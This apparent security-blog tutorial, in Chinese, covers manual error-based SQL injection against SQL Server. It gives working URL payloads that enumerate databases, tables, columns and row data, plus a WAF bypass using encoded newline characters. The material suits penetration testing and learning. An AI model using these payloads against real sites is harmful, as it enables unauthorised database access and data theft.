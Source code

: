 ```yaml
---
layout: post
title:  "SQL Server手工注入"
---
```

## 背景
某次xx，遇到了一处SQL Server 的注入点，由于平时碰到的SQL Server数据库比较少，所以本文将记录SQL Server的手工注入及其技巧，以便查阅。

## 思路
一般SQL注入都是先查库名再查表名最后查字段，查到字段之后就可以查到里面的数据了。
那么我们先查第一个库名:
```sql
SELECT top 1 Name FROM Master..SysDatabases
```
返回
<code>master</code>

这里返回的第一个数据库master是系统库，SQL Server总共有五个系统数据库，其说明如下:

|系统数据库|说明|
|---|---|
| <img width=300/> master |记录SQL Server 系统的所有系统级信息的数据库|
|msdb|SQL Server 代理用来安排警报和作业以及记录操作员信息的数据库。 msdb 还包含历史记录表，例如备份和还原历史记录表|
|model|在SQL Server 实例上为所有数据库创建的模板。|
|Resource|包含 SQL Server 2005 或更高版本附带的所有系统对象副本的只读数据库|
|tempdb|用于保存临时或中间结果集的工作空间。 每次启动 SQL Server 实例时都会重新创建此数据库。 服务器实例关闭时，将永久删除 tempdb 中的所有数据。|   

摘自  
<https://docs.microsoft.com/zh-cn/previous-versions/sql/sql-server-2012/ms190190(v=sql.110)>


那么我们继续查第二个库，在SQL Server中跟MYSQL不同，如果是在MYSQL中我们可以用 limit 去查，在SQL Server中需要加 not in ('库名1','库名2',.....)去排除里面的集合  

第二个库:  
```sql
SELECT top 1 Name FROM Master..SysDatabases where name not in ('master')
```
返回
```sql
model
```
那么以此类推，我们就可以得到所有库名。
但是如果后面的集合越来越大，这样去查并不是最有效率的，虽然说查库名可能没有感觉，但如果是表名呢？ 这样查到后面的集合无疑是越来越大，当然，我们在数据库中可以更改 top 后面的数值去查询多条:
```sql
SELECT top 5 Name FROM Master..SysDatabases
```
返回:

||Name|  
|---|---|  
|1|master|  
|2|tempdb|  
|3|model|  
|4|msdb|  
|5|xxx|  

实战的情况往往是不行的，因为用 top 去查返回的会是多行数据，而一般的注入点返回的只是单行，用这种方法返回的多个数据无法显示在单行，所以我们不能用这种方法去查。
在参考了倾旋的文章:  
<https://payloads.online/archivers/2020-03-02/3#stuff%E4%B8%8Exml-path>

还有国外的一篇文章:  
<https://www.sqlshack.com/for-xml-path-clause-in-sql-server/>

发现了可以用 FOR XML将SQL语句返回的多行数据合并成单行  
关于FOR XML的文档：  
<https://docs.microsoft.com/zh-cn/sql/relational-databases/xml/for-xml-sql-server?view=sql-server-ver15>  

>SELECT 查询将结果作为行集返回。 （可选操作）您可以通过在 SQL 查询中指定 FOR XML 子句，从而将该查询的正式结果作为 XML 来检索。 FOR XML 子句可以用在顶级查询和子查询中。 顶级 FOR XML 子句只能用在 SELECT 语句中。 而在子查询中，FOR XML 可以用在 INSERT、UPDATE 和 DELETE 语句中。 FOR XML 还可以用在赋值语句中。  

其中FOR XML有四种模式分别为
- RAW
- AUTO
- EXPLICIT
- PATH

这里我们可以用较为简单的PATH模式

```sql
SELECT  Name from Master..SysDatabases  FOR  XML PATH
```
返回
```xml
<row><Name>master</Name></row><row><Name>tempdb</Name></row><row><Name>model</Name></row><row><Name>msdb</Name></row>...
```

我们发现这里返回的数据变成了单行，现在我们要去掉row标签
```sql
SELECT  Name from Master..SysDatabases  FOR  XML PATH('')
```
返回
```xml
<Name>master</Name><Name>tempdb</Name><Name>model</Name>....
```
虽然说已经返回单行数据，但是有很多标签看着还是不舒服，参考了倾旋的方法，他是用
```sql
'['+name+'],'
```
这种方式进行拼接，我这里为了减少payload长度，直接用逗号进行拼接:
```sql
SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('')
```
返回
```sql
master,tempdb,model,msdb,...
```
这样会更方便查看。
关于STUFF函数：  
<https://docs.microsoft.com/zh-cn/sql/t-sql/functions/stuff-transact-sql?view=sql-server-ver15>

也可以通过STUFF函数进行拼接
```sql
SELECT STUFF((SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('') ), 1,0, '')
```
我在本地测试了下，用这种方式的返回和不加STUFF函数的结果是一样的，于是我在实测中便不采用这种方法。

## 实战

手工发现注入点,单引号报错:
```html
xxx.com?abc=1'
```

查版本：
```html
xxx.com?abc=a' and 1=(select @@version) and '1'='1
```
爆了版本的错误

于是接着注库名
```html
xxx.com?abc=a' and 1=(SELECT name+',' FROM(SELECT name from Master..SysDatabases)a FOR  XML PATH('')) and '1'='1
```
然后被waf给拦截了..
SQL Server数据库不像MYSQL有內联注释可以绕过很多软waf，所以考虑将payload变形，首先想到的是将特殊符号(单引号)进行urlencode，结果发现还是被拦截了，接着考虑将payload进行base64编码，结果发现这个注入点传递到数据库不支持base64编码。最后我将空格换成%0a,%0b，%0c等，成功绕过。
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0aMaster..SysDatabases)%0a%0aFOR%0a%0aXML%0aPATH(%27%27))a%0aand%0a%271%27=%271
```
成功返回库名
接着开始注表名,在SQL Server中查询表名的语句是:
```sql
SELECT name+',' FROM(SELECT name from xxx.sys.all_objects where type='U')a FOR  XML PATH('')
```
这里
```sql
xxx.sys.all_objects
```
'xxx'指的是数据库名，执行成功后返回xxx库的表名
那么我们运用到实战:
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0axxx.sys.all_objects%0awhere%0atype=%27U%27)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功返回表名

注字段名的语句，table_name指的是表名
```html
select name+',' from (SELECT Name FROM SysColumns WHERE id=Object_Id('table_name'))a FOR XML PATH('')
```
那么运用到实战:
```html
xxx.com?abc=a%27%0aand%0a1=(select%0aname%2b%27,%27%0afrom%0a(SELECT%0aName%0aFROM%0aSysColumns%0aWHERE%0aid=Object_Id(%27table_name%27))a%0afor%0axml%0apath(%27%27))%0aand%0a%271%27=%271
```


接着注字段的值
```html
SELECT column_name+',' FROM(SELECT column_name from 数据库名.dbo.table_name)a FOR  XML PATH('')
```
这里column_name指的是字段名,table_name指的是表名，如果不指定数据库名就会查当前数据库
运用到实战
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0atop%0a5%0acolumn_name%2b%27,%27%0aFROM(SELECT%0acolumn_name%0afrom%0adbo.table_name)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功注出前五条数据
